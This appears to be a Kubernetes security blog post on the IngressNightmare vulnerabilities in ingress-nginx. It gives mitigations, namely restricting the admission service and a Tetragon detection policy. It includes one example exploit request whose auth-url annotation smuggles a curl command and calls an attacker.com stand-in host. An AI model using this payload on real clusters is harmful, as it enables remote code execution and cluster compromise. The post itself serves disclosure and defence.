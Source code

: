 ```yaml
---
title: Blog First
date: 2024-02-23 12:34:27 -500
categories: [kubernetes security]
tags: [vulnerability,redteam]
---
```


### Article 1: Enhanced Ingress-NGINX Controller Security Analysis

```markdown
---
layout: post
title: "Advanced Ingress-NGINX Security: Mitigating Critical Vulnerabilities"
date: 2025-04-07
categories: [Kubernetes, Security]
---

## The IngressNightmare Vulnerabilities (CVE-2025 Series)
In March 2025, security researchers disclosed four critical vulnerabilities enabling full cluster compromise through the ingress-nginx admission controller[^2][^9]. These vulnerabilities exploit configuration injection flaws in:

1. **auth-url annotation** (CVE-2025-24514)
2. **auth-tls-match-cn annotation** (CVE-2025-1097)
3. **mirror-target/mirror-host** (CVE-2025-1098)
4. **Admission Controller RCE** (CVE-2025-1974 CVSS 9.8)

### Technical Exploit Chain
```

POST /networking/v1/ingresses HTTP/1.1
Host: admission-controller:8443
Content-Type: application/json

{
"apiVersion": "networking.k8s.io/v1",
"kind": "Ingress",
"metadata": {
"annotations": {
"nginx.ingress.kubernetes.io/auth-url": "http://attacker.com/$(curl${IFS}malicious.payload)"
}
}
}

```
This payload exploits CVE-2025-24514 to execute arbitrary commands during NGINX configuration validation[^9].

## Enhanced Mitigation Strategies
### 1. Admission Controller Hardening
```


# Restrict admission controller network exposure

kubectl patch svc ingress-nginx-controller-admission -p '{"spec":{"type":"ClusterIP"}}'

```
### 2. Runtime Security
```


# eBPF-based detection with Tetragon

apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
spec:
kprobes:

- call: "execve"
syscall: true
args:
    - index: 0
type: "string"
selectors:
    - matchArgs:
        - index: 0
operator: "Prefix"
values: ["/usr/local/nginx"]

```
This policy detects suspicious process executions in ingress-nginx pods[^8].
```